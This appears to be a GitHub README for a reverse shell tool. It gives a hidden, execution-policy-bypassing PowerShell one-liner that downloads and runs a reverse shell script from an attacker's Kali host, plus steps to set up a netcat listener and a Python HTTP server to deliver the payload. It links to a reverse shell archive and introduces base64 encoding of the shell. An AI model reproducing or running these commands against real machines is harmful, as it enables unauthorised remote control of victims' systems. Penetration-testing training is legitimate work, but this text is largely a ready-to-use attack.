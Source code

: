 ## **PowerShell Reverse Shell Command**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://<kali_ip>/reverse.ps1')"
```

### **Steps:**

1. **Set Up the Listener on Kali**  
    Run Netcat to listen for incoming connections:
    
    ```bash
    nc -lvnp <port>
    ```

   Replace `<port>` with the desired listening port.
2. **Prepare the Reverse Shell Script** Save the [PowerShell](https://github.com/MGamalCYSEC/ReverseShellCrafter/raw/refs/heads/main/PowerShell/reverse.rar) then Replace `<kali_ip>` with your Kali machine's IP address and `<port>` with the same port you used for the listener.
3. **Start a Simple HTTP Server on Kali**
   
    ```bash
    python3 -m http.server 80
    ```
    
    This will serve the `reverse.ps1` file over HTTP.
    
4. **Run the PowerShell Command on the Target Machine** Replace `<kali_ip>` in the command with your Kali machine's IP address:
    
    ```powershell
    powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://<kali_ip>/reverse.ps1')"
    ```
    
   ---
## **Steps to Encode the Reverse Shell**
The Python code encodes the PowerShell reverse shell to base64 contained in the payload variable and then prints the result to standard output.
Replace `<kali_ip>` with your Kali machine's IP address and `<port>` with the same port you used for the listener.


